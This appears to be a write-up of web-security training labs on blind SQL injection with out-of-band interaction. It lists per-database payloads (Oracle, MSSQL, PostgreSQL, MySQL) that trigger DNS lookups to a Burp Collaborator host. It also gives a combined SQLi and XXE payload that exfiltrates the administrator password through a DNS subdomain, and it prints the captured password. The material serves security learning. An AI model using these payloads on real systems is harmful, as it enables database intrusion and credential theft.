 > **On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:
> `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`**

> **To solve the lab, exploit the SQLI vulnerability to cause a DNS lookup to Burp Collaborator.**

> **DNS Lookup Payloads:
> Oracle: `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`
> Microsoft: `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
> PostgreSQL: `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
> MySQL: `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`  
`SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`**

> **in this lab we will Compine SQLI with XXE to solve the lab and you can learn about XXE from this Link. [XXE](https://portswigger.net/web-security/xxe)**

> **Payload: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//fzi361u0rpc39ng09uwn4o6w1n7dv2.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`**

![](https://i.ibb.co/HGRKvPF/Pasted-image-20210526223719.png)

> **now we can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:
> `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
> This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:
> `S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`**

#### Lab F: Blind SQL injection with out-of-band data exfiltration.

> **To solve the lab, log in as the `administrator` user.**

##### DNS lookup with data exfiltration:
>**Oracle: `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`
>Microsoft: `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`
>MySQL: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`**

> **Payload: `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.dhyh37kgjt1l452szhl61iy0crih66.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--`**
> **Password: `96j0zwhmi9f24nqi6z01`**

![](https://i.ibb.co/F6phPD3/Pasted-image-20210526224722.png)

![](https://i.ibb.co/5vvCVVN/Pasted-image-20210526224958.png)
